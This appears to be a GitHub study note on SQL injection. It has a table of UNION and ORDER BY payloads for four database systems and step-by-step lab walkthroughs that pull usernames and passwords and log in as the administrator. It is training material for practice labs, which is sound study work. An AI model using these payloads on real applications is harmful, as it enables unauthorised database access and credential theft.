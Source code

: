 <h2>SQL Injection(SQLi) Vulnerabilities </h2>

<b>SQL Attack queries to determine the number of COLUMNS, DATATYPES of the columns and VERSION on Oracle, Microsoft, MySQL and PostgreSQL</b>

| Database | Columns Query | Datatypes | Version |
|----------|---------------|-----------|---------|
| Oracle |  ‘ ORDER BY 1-- </br> ‘ ORDER BY 3-- </br> In this example: 3 - 1 = 2(no. of columns) | ‘ UNION SELECT ‘a’ , ‘a’ FROM DUAL-- | ‘ UNION SELECT banner, NULL FROM v$version-- </br> SELECT banner FROM v$version |  
| Microsoft | same as Oracle | ‘ UNION SELECT ‘a’ , ‘a’-- | SELECT @@version | 
| MySQL | ‘ ORDER BY 1# | ‘ UNION SELECT ‘a’ , ‘a’# | SELECT @@version </br> ‘ UNION SELECT @@version, ‘a’#|
| PostgreSQL | same as Oracle | ‘ UNION SELECT ‘a’ , ‘a’-- | SELECT version() |

<b>SQLi Attack, listing the database contents on Oracle</b>
</br>
1. Use [Burp Suite](https://portswigger.net/burp/communitydownload) to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:  '+UNION+SELECT+'abc','def'+FROM+dual--
3. Use the following payload to retrieve the list of tables in the database:  '+UNION+SELECT+table_name,NULL+FROM+all_tables--
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:  '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:  '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
8. Find the password for the administrator user, and use it to log in.
</br>

<b>SQLi UNION attack, finding a column containing text</b>
</br>
1. Use Burp Suite to intercept and modify the request that sets the product category filter. </br>
2. Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:  '+UNION+SELECT+NULL,NULL,NULL-- </br>
3. Try replacing each null with the random value, for example:  '+UNION+SELECT+'abcdef',NULL,NULL-- </br>
4. If an error occurs, move on to the next null and try that instead.
</br>

